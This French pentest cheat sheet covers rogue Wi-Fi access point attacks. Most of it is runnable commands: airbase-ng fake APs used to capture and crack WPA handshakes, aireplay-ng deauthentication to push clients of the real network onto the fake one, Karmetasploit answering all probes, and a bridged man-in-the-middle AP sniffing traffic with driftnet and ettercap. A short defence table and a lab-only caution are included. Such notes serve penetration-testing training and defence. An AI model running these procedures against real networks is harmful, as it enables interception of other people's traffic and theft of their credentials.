

# 🎭 Attaques WiFi — Rogue AP & MITM

> [!info] **En 1 phrase**
> Un **Rogue AP** est un faux point d'accès (airbase-ng) : on y capture des handshakes WPA, on répond à toutes
> les probes (**Karmetasploit**), on phish, ou on fait un **AP MITM** (pont + reniflage avec driftnet/ettercap).

---

## 🎯 Concept



> [!info] 💡 **Pourquoi un Rogue AP ?**
> - Capturer un handshake **sans déauth** (le client croit se connecter au vrai réseau).
> - **Phishing** (portail, creds AD — voir fiche Enterprise).
> - **MITM complet** (renifler, injecter, pivoter).

---

## 📶 Faux AP + capture de handshake

```bash
airmon-ng start wlan0 3
airodump-ng -c 3 -d $ATTACKER_MAC -w airbase mon0

# Faux AP basique
airbase-ng -c 3 -e $AP_SSID mon0

# Faux AP WPA2 (-z 4) — capturer le handshake quand le client se connecte
airbase-ng -c 3 -e $AP_SSID -z 4 -W 1 mon0
#   -W 1 : WEP

# Crack du handshake capturé
aircrack-ng -w /pentest/passwords/john/password.lst airbase-01.cap
```

> [!tip] 💡 Pour piéger les clients, déauthentifier ceux du **vrai** AP :
> `aireplay-ng -0 0 -a <vrai_AP_MAC> mon0` → ils cherchent le réseau → trouvent le faux.

---

## 🕶️ Karmetasploit (répond à toutes les probes)

> L'AP répond à **toutes** les sondes de clients → les clients « voient » leur réseau préféré → se connectent.

```bash
# Installer un serveur DHCP
apt install dhcp3-server

airmon-ng start wlan0 3
airbase-ng -c 3 -P -C 60 -e $AP_MAC -v mon0
#   -P : répondre à toutes les probes

# Interface client
ifconfig at0 up 10.0.0.1/24

# DHCP
mkdir -p /var/run/dhcpd
chown -R dhcpd:dhcpd /var/run/dhcpd
touch /var/lib/dhcp3/dhcpd.leases
# → configurer /tmp/dhcpd.conf puis :
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp/log at0

# Metasploit : karma.rc (commenter load db_sqlite3 / db_connect)
msfconsole -r /root/karma.rc
```

---

## 🌐 AP MITM (pont + reniflage)

```bash
airmon-ng start wlan0 3
airbase-ng -c 3 -e $AP_SSID_SPOOFED mon0

# Créer une interface pont (bridge-utils)
brctl addbr hacker
brctl addif hacker eth0
brctl addif hacker at0

# Assigner les IP
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up

# Activer le forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Sniffing / MITM sur l'interface pont
driftnet
ettercap -G
#   Sniff > Unified sniffing > Hacker Interface
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **WIDS/WIPS** | Détecte les AP non autorisés (même SSID, MAC différent, signaux RF anormaux) |
| **Vérifier le BSSID** | Comparer le MAC du AP avec celui attendu (physiquement) |
| **802.1X + certs** | Un Rogue AP ne peut pas reproduire le certificat RADIUS valide |
| **Scan RF régulier** | `airodump-ng`, Kismet → repérer les AP clones |

## ⚠️ Tips & Pièges

- Le **faux AP** doit avoir le **même SSID** ET si possible une **puissance/position** convaincante.
- `airbase-ng` crée l'interface **at0** : tout trafic client passe par là.
- **Karmetasploit** est bruyant (répond à toutes les probes) → réservé au lab ou à du client déjà autorisé.
- AP MITM = **pont transparent** : le client garde sa connexion vers l'internet réel, on écoute au milieu.

> [!info] 📚 **Sources**
> GitHub : [swisskyrepo/HardwareAllTheThings – `docs/protocols/wifi/wifi-corporate.md`](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/wifi/wifi-corporate.md) (Rogue AP)

➡️ **Liens :** [[Attaques WiFi (WPA2 et PMKID)|📶 Hub WiFi]] · [[Attaques WiFi - Enterprise|🏢 Enterprise]] · [[Attaques WiFi - WPA2 PSK|🔐 WPA2-PSK]] · [[ARP Spoofing et MITM|🌐 ARP Spoofing]] · [[Bibliothèque technique|🏠 Index]]
